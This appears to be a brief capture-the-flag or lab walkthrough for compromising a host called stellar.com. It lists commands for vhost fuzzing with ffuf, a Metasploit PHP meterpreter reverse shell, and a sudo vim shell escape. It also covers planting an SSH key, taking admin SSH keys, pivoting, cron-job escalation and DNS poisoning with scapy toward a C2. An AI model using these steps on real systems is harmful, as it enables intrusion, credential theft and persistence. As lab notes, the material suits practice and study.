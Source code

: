 1. start at stellar.com
2. scan vhost for admin.com `ffuf -w wordlist.txt -u stellar.com -H "Host: FUZZ.com"`
3. reverse shell with metasploit docker
  - use `docker run -it -p 6666:6666 metasploitframework/metasploit-framework`
  - `use payload/php/meterpreter/reverse_tcp` -> generate -f raw
  - `use exploit/multi/handler`
  - start shell
4. privilege escallation with vim
  - `export PATH=$PATH:/run/wrappers/bin:/etc/profiles/per-user/web/bin:/run/current-system/sw/bin`
  - `sudo vim -c ':!/bin/sh'`
  - stabilize `python3 -c 'import pty; pty.spawn("bash")'`
  - add own ssh key for better shell
5. find ssh keys in /home/admin/.ssh
TODO : find ip of resolver with dig or traceroute
6. ssh into resolver with IP 10.0.2.2 -p 22224
7. privilege escalation cron job
8. list with tcpdump and see DNS packet
9.
  + run scapy to poison to redirect to web or attacker (or host here)
  + get the ip of the c2 and access with telnet
10. listen somewhere
